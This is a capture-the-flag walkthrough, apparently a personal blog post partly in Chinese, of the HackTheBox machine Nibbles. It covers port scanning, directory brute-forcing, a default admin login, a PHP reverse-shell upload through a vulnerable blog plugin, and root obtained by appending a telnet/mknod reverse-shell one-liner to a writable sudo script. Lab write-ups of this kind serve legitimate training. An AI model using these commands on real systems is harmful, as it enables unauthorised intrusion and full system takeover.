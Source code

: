 ```yaml
---
layout: post
title:  "HackTheBox >_ Nibbles_75"
description: walkthrough
category: HackTheBox
---
```

# Nibbles_75

![]({{ site.url }}/assets/Nibbles_75.assets/20201119151950827_323284604.png)

`rustscan 10.10.10.75 -b 924 -t 1500 --no-nmap`

![]({{ site.url }}/assets/Nibbles_75.assets/20201119152235491_310712518.png)


`nmap -sV -T5 -Pn -oX sploit.xml -vvv -p22,80 10.10.10.75 ; searchsploit --nmap sploit.xml`

![]({{ site.url }}/assets/Nibbles_75.assets/20201119152609712_1612544169.png)

`sudo nmap -v -Pn -T4 -sC -sV -p22,80 10.10.10.75`

![]({{ site.url }}/assets/Nibbles_75.assets/20201119152718274_786223243.png)


![]({{ site.url }}/assets/Nibbles_75.assets/20201119152819917_587165110.png)

![]({{ site.url }}/assets/Nibbles_75.assets/20201119152854648_796645805.png)

`dirsearch -u http://10.10.10.75/nibbleblog -e js,html,php,py,asp,aspx,bak,txt`

![]({{ site.url }}/assets/Nibbles_75.assets/20201119153554881_1812989237.png)

![]({{ site.url }}/assets/Nibbles_75.assets/20201119153648531_264638976.png)

![]({{ site.url }}/assets/Nibbles_75.assets/20201119155429710_348636695.png)

默认凭证
`admin:nibbles`

![]({{ site.url }}/assets/Nibbles_75.assets/20201119155554752_1201543849.png)

![]({{ site.url }}/assets/Nibbles_75.assets/20201119155631386_1558737402.png)

![]({{ site.url }}/assets/Nibbles_75.assets/20201119155649629_546505661.png)

查看之前找到的msf脚本

![]({{ site.url }}/assets/Nibbles_75.assets/20201119160054579_333086208.png)

上传payload的位置应该在 plugins=>config=>my_image

![]({{ site.url }}/assets/Nibbles_75.assets/20201119160147417_1837513774.png)

上传php reverse shell

![]({{ site.url }}/assets/Nibbles_75.assets/20201119160312176_131672111.png)

![]({{ site.url }}/assets/Nibbles_75.assets/20201119160507353_1105013167.png)

根据rb脚本

![]({{ site.url }}/assets/Nibbles_75.assets/20201119160608897_517718513.png)

浏览

`http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php`

立即在监听处获得shell

![]({{ site.url }}/assets/Nibbles_75.assets/20201119160904408_1838793994.png)

`python3 -c "import pty; pty.spawn(['/bin/bash']);"`

![]({{ site.url }}/assets/Nibbles_75.assets/20201119161025222_173493181.png)

![]({{ site.url }}/assets/Nibbles_75.assets/20201119161151435_1764584088.png)

![]({{ site.url }}/assets/Nibbles_75.assets/20201119161328110_615601946.png)

有压缩文件，未展开

原文件已经没有，只有一个压缩文件//


unzip
unzip personal.zip

![]({{ site.url }}/assets/Nibbles_75.assets/20201119161535370_1993178823.png)

权限：可写




`echo "mknod backpipe p && telnet 10.10.14.24 1338 0<backpipe | /bin/bash 1>backpipe" >> monitor.sh`


`sudo /home/nibbler/personal/stuff/monitor.sh`

![]({{ site.url }}/assets/Nibbles_75.assets/20201119161742626_759068608.png)